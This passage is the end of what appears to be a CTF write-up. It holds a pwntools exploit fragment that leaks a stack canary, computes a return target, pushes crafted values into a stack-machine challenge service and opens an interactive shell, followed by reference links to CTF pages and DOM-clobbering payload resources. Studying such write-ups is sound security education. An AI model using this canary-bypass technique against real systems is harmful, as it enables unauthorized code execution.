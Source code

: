```python
    v = int(r[1])
    vals.append(v)

canary = vals[-1]
print(hex(canary))
assert(canary >= 0)

addr_diff = known_addr - known_target

cur_addr = vals[2]
cur_target = cur_addr - addr_diff

assert len(vals) == n

# Put back the values we pop before
for i in range(n):
    v = vals.pop()
    payload = f"push {v}"
    p.recvuntil(b">> ")
    p.sendline(payload.encode())
    p.recvline()

# Push some values before the canary
n = 29
for i in range(n):
    payload = f"push {i}"
    p.recvuntil(b">> ")
    p.sendline(payload.encode())
    p.recvline()

# Push the canary value
payload = f"push {canary}"
p.recvuntil(b">> ")
p.send(payload.encode())
p.recvline()

p.recvuntil(b">> ")
p.sendline(b"push 0")
p.recvline()

payload = f"push {cur_target}"
p.recvuntil(b">> ")
p.sendline(payload.encode())
p.recvline()

p.recvuntil(b">> ")
p.sendline(b"exit")

p.interactive()
```


[prevwriteup]: /blog/l3akctf-2024-writeup/
[tscctf]: https://ctftime.org/event/2598
[ctftag]: /blog/tag/ctf/
[domclob]: https://portswigger.net/web-security/dom-based/dom-clobbering
[clobpayload]: https://domclob.xyz/domc_markups/list
[webhooksite]: https://webhook.site
[beautiwriteup]: https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/crocodilu